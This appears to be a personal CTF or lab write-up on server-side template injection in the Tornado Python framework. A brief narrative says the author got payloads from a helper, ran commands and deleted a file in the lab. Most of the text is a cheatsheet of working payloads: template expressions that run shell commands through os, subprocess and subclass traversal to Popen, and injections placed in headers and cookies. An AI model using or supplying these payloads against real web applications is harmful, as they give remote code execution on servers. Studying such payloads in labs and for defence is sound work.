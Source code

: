 https://www.tornadoweb.org/en/stable/template.html

Tried some hacktricks, this didn't work
https://book.hacktricks.wiki/en/pentesting-web/ssti-server-side-template-injection/index.html#tornado-python
https://ajinabraham.com/blog/server-side-template-injection-in-tornado

so I asked my ol friend
and got some payloads

At first I didn't see it reflected but upon inspection it was reflected on the comments tab on this lab so I did cmd injection and removed the file

---
## Tornado Template SSTI Cheatsheet

###  SSTI Detection Payloads

```html
{{ 7*7 }}                       → Outputs: 49
{{ handler }}                  → Shows the request handler object
{{ handler.request }}          → Access request object
{{ handler.request.headers }}  → Access headers (e.g., User-Agent, Referer)
```

---

###  Command Execution (if unrestricted)

```html
{{ __import__('os').system('id') }}
{{ __import__('os').popen('ls /').read() }}
{{ __import__('subprocess').check_output('whoami', shell=True) }}
```

---

###  MRO and Subclass Traversal -  dunno what this is 

```html
{{ ''.__class__.__mro__ }}  → (<class 'str'>, <class 'object'>)
{{ ''.__class__.__mro__[1].__subclasses__() }}  → List all subclasses

# Example: get subprocess.Popen
{{ ''.__class__.__mro__[1].__subclasses__()[<index>] }}
```

###  Full RCE via `Popen`

```html
{{ ''.__class__.__mro__[1].__subclasses__()[<index>]('id', shell=True, stdout=-1).communicate() }}
```

 Replace `<index>` with actual one for `subprocess.Popen`.

---

###  Useful Context Objects

```html
{{ handler }}                 → Core handler object
{{ handler.request }}         → Request metadata
{{ handler.request.arguments }} → POST/GET data
{{ handler.request.headers }} → Custom headers
{{ handler.application }}     → Web app internals
```

---

###  Bypass & Enumeration Tricks

```html
{{ request.headers['User-Agent'] }}
{{ request.arguments['search'][0] }}    # if search is parameter
```

Try injecting in headers:

```http
User-Agent: {{7*7}}
Referer: {{handler.request}}
Cookie: session={{__import__('os').popen('id').read()}}
```

---
**Engine:** Tornado (`tornado.template`)  
**Impact:** Allows attacker-controlled template expressions to be evaluated on the server.

**Vectors:**

- Query params (`?q=`)
- Headers (`User-Agent`, `Referer`)
- POST fields (`username=`)
- Cookies
---

##  One-Liner Payloads (Ready for CTFs)

```html
{{ __import__('os').popen('id').read() }}
{{ ''.__class__.__mro__[1].__subclasses__()[396]('ls', shell=True, stdout=-1).communicate() }}
{{ handler.request.headers }}
```

---
